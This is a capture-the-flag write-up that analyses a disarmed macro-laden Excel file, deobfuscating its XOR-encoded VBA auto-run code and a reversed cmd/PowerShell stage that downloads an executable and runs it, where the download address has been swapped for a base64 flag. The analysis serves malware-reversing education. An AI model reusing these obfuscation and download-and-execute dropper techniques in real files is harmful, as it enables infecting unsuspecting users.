


## TL;DR
Analyze a malicious Excel file and extract its payload
## Description
I found some Russian malware online and I have no idea what it's doing D:

Author: xenocidewiki

The challenge provides us with a Finances2020covid.xlsm file
## Initial analysis
First of all, when you download this file, Microsoft Defender warns you that it is malware. I guess that the author took a malware sample and removed the actual malicious part to create this challenge which is why Defender blocks it. In a real world scenario, you wouldn't simply open the file or even keep it on your computer. The .xlsm hints indeed to a macro-infused excel file, which is commonly used as an initial infection vector. You can easily extract the macro with oledump and analyze it safely if you want to be sure that the macro is not dangerous. In this case however, I'll simply open it with excel and see what it contains.

When we first open it, we see this big image that asks us to "enable editing".
Again, you should never do this in a real world sceanrio because this allows the macro to run but in this case, it's safe to enable editing. After that, we get another warning that tells us that macros are deactivated. Again,activate them so we can solve this challenge. When we do this, a message box appears containing the words **Thank you!** Now let's analyze the macro code in detail.
## Macro analysis
To see the macro code in Excel, click on the Developer Tab (you may need to activate this if you haven't used it before) and pick Visual Basic. You can now see a big chunk of code written in VBA (I included a shortened version here so you get the gist of the obfuscation). 
```vba
Private Function decrypt(ciphertext As Variant, key As Variant)
    Dim plaintext As String
    plaintext = ""
    
    For i = LBound(ciphertext) To UBound(ciphertext)
        plaintext = plaintext & Chr(key(i) Xor ciphertext(i))
    Next
    decrypt = plaintext
End Function
Private Function SKDKLNWEio2nf()
Dim wsh As Object

Set wsh = VBA.CreateObject(decrypt(Array(202, 75, (92 Xor (241 - 10)), 215, 91, 144, (135 + 30), (318 - 110), (279 - 92), (92 - 24), 105, 26, ((7 - 2) Xor 74)), Array((124 Xor ((247 - 82) + (103 - 43))), (24 - 0), 216, 165, ((0 + (24 - 12)) Xor 62), (271 - 47), (170 Xor 123), (76 Xor 178), (356 - 124), ((11 - 4) + 37), (2 + 10), 118, (48 - 13))))

Dim wortn As Boolean: wortn = True

Dim wndstyle As Integer: wndstyle = (1 Xor (0 + (0 - 0)))

Dim knlkdneKLADSFLKNfMKWEMLFAS123123njk As String

knlkdneKLADSFLKNfMKWEMLFAS123123njk1 = decrypt(Array(((51 + 171) Xor (8 + 28)), (228 - 7), (131 Xor 43), (19 Xor 11), (132 Xor (31 + (132 - 47))), 168, 23, (151 Xor (100 - 31)), (123 - 3), ((167 - 73) Xor (418 - 202)), (188 - 18)), Array(153, (64 Xor ((152 - 9) + 97)), (((19 - 5) + (41 - 18)) Xor (6 + 227)), 56, (204 + (23 - 4)), (143 + (212 - 101)), (69 - 24), ((26 + (4 - 2)) Xor (68 + 61)), (49 Xor 7), ((199 - 58) Xor 36), (322 - 97)))
knlkdneKLADSFLKNfMKWEMLFAS123123njk2 = ""
wsh.Run knlkdneKLADSFLKNfMKWEMLFAS123123njk1 & knlkdneKLADSFLKNfMKWEMLFAS123123njk2 & knlkdneKLADSFLKNfMKWEMLFAS123123njk3 & knlkdneKLADSFLKNfMKWEMLFAS123123njk32 &
End Function
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$(decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), 14, (135 - 56))))

If uname = decrypt(Array(161, 143, (157 - 30), (12 Xor (65 + 0)), ((416 - 192) + (16 - 6)), (349 - 157), 194, 138), Array(215, 224, (44 - 17), (6 + 32), 139, (212 - 39), 163, (((75 - 24) + (19 - 6)) Xor 164))) Then
   ...
    End If
Else
    MsgBox decrypt(Array(36, (2 + 12), (21 + 104), (40 + (13 - 0)), 77, ((31 - 12) Xor (1 + 11)), 239, (31 Xor 63), (15 - 4), 0), Array((103 Xor 23), (((53 - 0) + 7) Xor 90), (6 + (24 - 2)), 91, ((48 - 23) + 13), (70 - 7), 150, ((12 - 3) Xor (89 - 19)), 126, 33))
End If

End Sub
```
We can clearly see that this code has been heavily obfuscated. Deobfuscating this is however not that hard. All you need is a few well-placed calls to MsgBox to see the values that are returned by all the decrypt functions. So for example, if you wanted to know what the parameter to the Environ$ call is, simply add
```vba
MsgBox decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), (3 - 0), (8 + 38), (329 - 133), (19 + 52), ((188 - 28) + 68), (((54 - 25) + 28) Xor 142), ((3 - 1) + (11 - 2)), 14, (135 - 56)))
```
to the script and the value will be shown to you when you run it. If we apply this technique for each obfuscated value in WorkBook_Open() function (the function that gets called when you open the excel file). We get the following cleaned up version:
```vba
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$("computername")
If uname = "vodkaman" Then
    If hostname = "SIGINTCORP" Then
        Call Success
    Else
        MsgBox "Thank you!"
    End If
Else
    MsgBox "Thank you!"
End If

End Sub
```
Now this is much easier to analyze. The code gets our username and computername and then compares them to **vodkaman** and **SIGINTCORP** respectively. It then calls Success (I renamed SKDKLNWEio2nf to Success). So let's see what happens if we call Success:

It opens up a shell and runs some script that finishes after a few seconds and prints *woooops*
Now let's analyze the other function in the macro. There are two important parts in this code:
```vba
Set wsh = VBA.CreateObject(WScript.Shell)
```
This sets up the shell
```vba
wsh.Run ...
```
This sets up the command to run in the shell. If we print the parameters to this call, we get the powershell payload.
## Powershell analysis
```powershell
cmd /V:ON/Kset riMt=}
 } ;'spooooow' tuptuO-etirW { hctac };kaerb ;vnE$ metI-ekovnI;)vnE$ ,a$(eliFdaolnwoD.tneilCbeW${ yrt{ )etiSbeW$ ni a$( hcaerof;'exe.' + emaneliF$ + '\\' + cilbup:vne$ = vnE$;'f2lk3m2ja' = emaneliF$;'9RXMfJHMm9FbsRjZfNDbw92Mw91dwg2XyNDZuBzdfFzXuBTbtBzYuV3X0BjbfNXMfNjc0cHb002XBJkV7RWZudHc' = etisbeW$;tneilCbeW.teN tcejbo-wen = tneilCbeW$&&
 for /L %W in (337;-1;0)do set AW7L=!AW7L!!riMt:~%W,1!&&if %W==0 powershell !AW7L:~6! 
```
Again, this payload is heavily obfuscated and the main part is reversed. After a little clean up and reversing the main code, the payload looks like this:
```powershell
$WebClient = new-object Net.WebClient;
$Website = 'cHduZWR7VkJBX200bHc0cjNfMXNfbjB0X3VuYzBtbTBuXzFfdzBuZDNyX2gwd19wM29wbDNfZjRsbF9mMHJfMXR9';
$Filename = 'aj2m3kl2f';
$Env = $env:public + '\\' + $Filename + '.exe';
foreach ($a in $WebSite) 
	{try 
		{$WebClient.DownloadFile($a, $Env);
		Invoke-Item $Env; 
		break;} 
	catch 
		{ Write-Output 'wooooops'; }
```
This payload basically tries to download the second-stage payload.
It would normally have an array of domains defined in the $Website variable that it can contact. Then it tries to download the 'aj2m3kl2f' binary from those domains, saves it, and then tries to invoke it. In this case, however, because the malware has been disarmed, the domain is actually just a base64 encoded string. If decode that, we get our flag: pwned{VBA_m4lw4r3_1s_n0t_unc0mm0n_1_w0nd3r_h0w_p3opl3_f4ll_f0r_1t}

## Conclusion
I really liked this challenge as it introduces macros as a common technique that get often used for initial infection. While it wasn't too complicated, the different techniques needed to solve this challenge were however a nice change from the usual ELF Reversing that you can find in CTFs. Shoutout to xenocidewiki for creating a bunch of great challenges and introducing more variety to the category.
